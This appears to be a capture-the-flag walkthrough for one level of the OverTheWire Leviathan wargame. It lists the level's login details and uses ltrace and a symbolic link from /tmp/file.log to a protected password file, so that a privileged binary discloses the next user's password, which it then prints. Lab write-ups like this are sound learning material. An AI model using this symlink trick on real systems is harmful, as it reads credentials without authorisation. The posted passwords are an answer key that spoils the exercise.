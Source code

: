 Level #6 find the password for leviathan6 user

- Server: leviathan.labs.overthewire.org
- User: leviathan5
- Password: EKKlTF1Xqs

ssh leviathan5@leviathan.labs.overthewire.org -p 2223

// once in the home dir look at the dir contents
ls -la

// the leviathan5 executable is found
lrtace ./leviathan5

// ltrace is used to see the function calls this executable performs
// there is an fopen error due to /tmp/file.log file not existing
touch /tmp/file.log
ltrace ./leviathan5

// after running the executable again we see /tmp/file.log file is open, read and then unlinked
// since the touched /tmp/file.log is empty it reads nothing and nothing is printed to stdout
// didn't confirm if leviathan5 executable read the file as user leviathan6 but tried anyway to create
// hard and soft links to /etc/leviathan_pass/leviathan6
ln /etc/leviathan_pass/leviathan6 /tmp/file.log > didn't work due to permissions
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

./leviathan5

leviathan6 user password: YZ55XPVk2l 
